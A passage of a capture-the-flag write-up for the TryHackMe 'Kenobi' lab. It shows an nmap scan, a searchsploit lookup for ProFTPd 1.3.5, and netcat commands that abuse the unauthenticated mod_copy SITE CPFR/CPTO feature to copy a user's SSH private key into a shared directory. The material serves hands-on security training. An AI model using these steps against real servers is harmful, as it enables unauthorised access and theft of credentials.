 - Enumerating the nmap for services

```bash
┌──(kali㉿kali)-[~/writeups/thm/kenobi]                                                                                                          
└─$ nmap -p21,22,80,111,139,445,2049,34023,50323,51297,56499 -sV -sC -oN services.nmap 10.10.160.110 -vv  

[..snip..]
```

- The protftd version enumerated is `1.3.5`
- Lets enumerate known vulnerabilites in the proftp version with searchsploit

```bash
# install searchsploit
┌──(kali㉿kali)-[~/writeups/thm/kenobi]
└─$ sudo apt update && sudo apt -y install exploitdb

# searching exploits
┌──(kali㉿kali)-[~/writeups/thm/kenobi]
└─$ searchsploit proftp 1.3.5
--------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                 |  Path
--------------------------------------------------------------------------------------------------------------- ---------------------------------
ProFTPd 1.3.5 - 'mod_copy' Command Execution (Metasploit)                                                      | linux/remote/37262.rb
ProFTPd 1.3.5 - 'mod_copy' Remote Command Execution                                                            | linux/remote/36803.py
ProFTPd 1.3.5 - File Copy                                                                                      | linux/remote/36742.txt
--------------------------------------------------------------------------------------------------------------- ---------------------------------
```

- Lets abuset the mod_copy `rce`

> The mod_copy module implements SITE CPFR and SITE CPTO commands, which can be used to copy files/directories from one place to another on the server. Any unauthenticated client can leverage these commands to copy files from any part of the filesystem to a chosen destination.

```bash
# connect to the machine
┌──(kali㉿kali)-[~/writeups/thm/kenobi]
└─$ nc 10.10.150.127 21
220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [10.10.150.127]
SITE CPFR /home/kenobi/.ssh/id_rsa     # SITE COPYFROM {LOCAITON} (location identified from the log.txt)
350 File or directory exists, ready for destination name
SITE CPTO /var/tmp/id_rsa                  # The share in the rpc bind
250 Copy successful
```
